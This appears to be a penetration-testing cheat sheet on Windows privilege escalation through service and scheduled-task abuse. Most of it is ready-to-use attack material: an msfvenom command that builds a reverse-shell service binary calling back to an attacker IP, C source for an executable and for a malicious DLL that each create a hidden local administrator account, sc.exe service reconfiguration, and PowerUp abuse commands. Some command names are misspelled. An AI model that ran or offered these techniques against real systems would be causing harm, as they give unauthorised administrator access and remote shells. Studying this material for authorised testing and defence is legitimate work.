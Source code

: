 ```yaml
---
label: Tasks and Services Abuse
---
```


# Tasks and Services Abuse to Privilege Escalation

## Services

A Windows Service is a background executable managed by the SCM (Service Control Manager) and is similar to daemons on Linux. Services can be managed by the Services snap-in, PowerShell, or the `sc.exe` command line tool. Windows uses the `LocalSystem`, `Network Service`, and `Local Service` user accounts to run its own services. Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.

How to restart a service (try different methods!):

```powershell
# Stop service
sc.exe stop $service
net stop $service
Stop-Service $service_name

# Start service
sc.exe start $service
net start $service
Start-Service $service_name

# Reboot machine
shutdown /r /t 0 
```

> **IMPORTANT**: `sc.exe` (the `.exe` suffix is important!) 

### Binary hijacking

Each Windows service has an associated binary file. These binary files are executed when the service is started. If a lower authorized user is able to swap a binary that works as a service with higher privileges, there is a privilege escalation possibility. Once the service is restarted, the attacker's binary will be executed with the privileges of the service, such as `LocalSystem`.

PowerUp:

```powershell
# Get hijackable executables
Get-ModifiableServiceFile
```

Msfvenom has a special module for generating service binaries for Windows:

```powershell
# Generate rev-shell service executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=$port -f exe-service -o $output
```

You can also write something custom in C using the `system()` function:

```c
#include <stdlib.h>

int main ()
{
  system("net user $user password123! /add");
  system("net localgroup Administrators $user /add");
  
  return 0;
}
```

Compilation:

```bash
x86_64-w64-mingw32-gcc main.c -o main.exe
```

### DLL hijacking

By listing installed software or running services, we can find binaries vulnerable to DLL hijacking. If the binary is vulnerable to DLL hijacking (you can check it on the Internet), we can hijack the default DLL path and insert our own malicious DLL instead. Then wait until this binary is run (by the service or another user) and our malicious DLL file is executed with the other user's permissions.

> **REQUIREMENT**: Vulnerable DLL path must be writable for the current user to add inject a malicious DLL.  

How to find binaries vulnerable to DLL hijacking? One way is to use `Process Monitor` tool but unfortunately it requires to be run with administrator privileges. A workaround for this problem is to copy the binary to our local machine in order to investigate it further. Using `Process Monitor` we can identify unsuccessful attempts to access non-existent DLLs. These are the places where we want to inject our own malicious one.

The simplest malicious DLL in C:

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(HANDLE hModule, DWORD reason, LPVOID lpReserved ) 
{
  switch (reason)
  {
    case DLL_PROCESS_ATTACH:
      int i;
      i = system("net user $user password123! /add");
      i = system("net localgroup administrators $user /add");
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    
    return TRUE;
}
```

Compilation:

```bash
x86_64-w64-mingw32-gcc main.cpp --shared -o main.dll
```

### Service modification

The service ACL might allow to reconfigure service settings. This allows an attacker to point a malicious executable to the service and even change the account which the executable is run with.

> **NOTE**: By changing service binary path to a _CMD_ command, it is possible to execute shell command after service restart.

[Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) tool might be necessary to check a service ACL .

```powershell
# Check the service ACL
accesschk64.exe -qlc $svc_name             

# Reconfigure service: run :exe-path with Local SYSTEM account
sc.exe config $svc_name binPath= "$exe_path" obj= LocalSystem
```

PowerUp module:

```powershell
# List modifiable services
Get-ModifiableService -Verbose              

# Abuse service and add user to local Administrators group
Invoke-ServiceAbuse -Name $service -UserName $user
```

#### Unquoted service paths

If the service's executable points to an unquoted path with spaces, SCM tries to execute firt binary which is the first part of the unqoted path. This SCM feature is basically disgusting but it works like that. It allows an attacker to put malicious service binary in the "wrong" path and run it before a legit one will be executed.

Example:

```text
Unquoted binary path : C:\MyPrograms\Disk Sorter.exe

1st execution attempt: C:\MyPrograms\Disk.exe
2st execution attempt: C:\MyPrograms\Disk Sorter.exe
```

Indentify unquoted binary paths:

```powershell
# List potentially vulnerable service binaries
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```powershell
# List all services and their binaries
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# PowerUp module
Get-ServiceUnqoated -Verbose           
```

> **NOTE**: To drop an executable in the root `C:\` directory you need to actually fhave admin privileges so the unquoted `C:\Program Files (x86)\...` is basically useless.

For the exploitation we need to have rights to copy the binary to the vulnerable location and restart the service (or the entire system):

```powershell
# Check path permissions
icacls "C:\path\to\write"
```

## Scheduled Tasks

If the task runs periodically as `NT AUTHORITY\SYSTEM` or as an administrative user, then a successful attack could lead us to privilege escalation.

```powershell
# Get all scheduled tasks
schtasks /query /fo LIST /v

# Get paths of scheduled task binaries
schtasks /query /fo LIST /v | findstr /B /C:"Task To Run"

# Get scheduled tasks
Get-ScheduledTask
```

### Binary replacement

The most common tactic to exploit a scheduled task (when it's run on behalf of another user) is to replace it's binary. Sufficient permissions are required.

```powershell
# Check fule permissions
icacl $target_file
```
